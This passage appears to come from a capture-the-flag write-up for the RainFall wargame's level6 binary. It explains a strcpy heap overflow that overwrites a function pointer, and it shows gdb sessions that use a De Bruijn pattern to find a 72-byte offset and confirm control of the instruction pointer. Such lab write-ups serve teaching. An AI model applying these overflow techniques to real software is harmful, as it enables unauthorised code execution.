 ```
│     (Initially: 0x08048468)             │   ← Points to m()
│      (Target: 0x08048454)               │   ← Want to point to n()
└─────────────────────────────────────────┘
```

**The Vulnerability:**
- **strcpy() has no bounds checking** - can write beyond buffer boundaries
- **Source**: argv[1] (user-controlled, unlimited length)
- **Destination**: 64-byte heap buffer
- **Target**: Function pointer in adjacent heap allocation

### 8. Finding the Overflow Offset - De Bruijn Sequence Method
```bash
level6@RainFall:~$ gdb level6
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Starting program: /home/user/level6/level6 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x41346341 in ?? ()
```

**De Bruijn Sequence Analysis:**
```
Crash address: 0x41346341
Breaking down the bytes:
0x41 = 'A' (ASCII)
0x34 = '4' (ASCII)  
0x63 = 'c' (ASCII)
0x41 = 'A' (ASCII)

Pattern: "Ac4A"
```

**Finding the Offset:**
The De Bruijn sequence is specifically designed so every 4-byte combination appears exactly once. When we crash at `0x41346341` ("Ac4A"), we can count backwards in our pattern to find exactly where this occurs.

**Offset Calculation:**
Looking at the pattern `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4...`, the sequence "Ac4A" appears at position **72 bytes** from the start.

### 9. Confirming the Overflow Point
```bash
level6@RainFall:~$ gdb level6
(gdb) run $(python -c 'print "A"*72 + "BBBB"')
Starting program: /home/user/level6/level6 Aa...AAABBBB

Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
```
